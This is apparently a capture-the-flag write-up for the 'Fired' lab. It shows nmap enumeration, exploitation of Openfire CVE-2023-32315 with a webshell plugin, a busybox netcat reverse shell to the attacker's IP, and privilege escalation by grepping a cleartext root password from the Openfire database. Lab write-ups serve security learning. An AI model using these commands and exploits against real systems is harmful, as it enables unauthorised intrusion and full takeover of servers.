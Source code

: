 # Fired

So i start my enumeration by scanning for open ports ->

```
nmap -p- 192.168.52.96 --vv
nmap -sCV 192.168.52.96 > nmap.out
```

and i discover the following services:

```
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
9090/tcp open  zeus-admin     syn-ack ttl 63
9091/tcp open  xmltec-xmlmail syn-ack ttl 63
```

On the first service i see an admin console:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Openfire, Version: 4.7.3</p></figcaption></figure>

And the version seems vulnerable to this exploit:

{% embed url="https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT" %}

So i managed to use the exploit that creates credentials to bypass auth:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i looked around for interesting stuff and found this Plugins tab that seemed shady:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after looking it up i found a webshell plugin that i could try to abuse:

{% embed url="https://github.com/miko550/CVE-2023-32315/blob/main/openfire-management-tool-plugin.jar" %}

I upload the plugin and navigate to the webshell just like in the poc and i can now execute commands:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

just before getting my revshell i catch the flag:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So here i got stuck for few minutes and started to look at all my shell techniques and couldn't get a reverse shell, and found a `which busybox` command that i never used and it worked i got my shell with:

```
busybox nc 192.168.49.52 4444 -e /bin/sh
```

and i looked into why this one works and the others don't and came to the conclusion that `nc` doesn't work because its version **doesn't support the `-e` option** (for security reasons). However, `busybox nc` works because **BusyBox includes a version of Netcat that still allows `-e`** to execute a shell.

I popped a low interactive shell so i quickly upgraded it:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

So i had a hard time on privesc, i tried linpeas, suid and all the usual enumeration, then i tried grepping for passwords with&#x20;

```
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

I didn' t see much but i found many things related to databases which i hate enumerating and i remembered that in the openfire web instance there was an admin user so i thought that maybe the password would be in cleartext somewhere so i looked around and went into `/var/lib` which is a directory in Linux is used to store **variable state information** for system services and applications and stored **Databases** (e.g., `/var/lib/mysql` for MySQL, `/var/lib/postgresql` for PostgreSQL) so maybe my openfire db was there and indeed it was. I grepped for passwords and found a password which made me able to login as root:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><span data-gb-custom-inline data-tag="emoji" data-code="1f389">🎉</span></p></figcaption></figure>
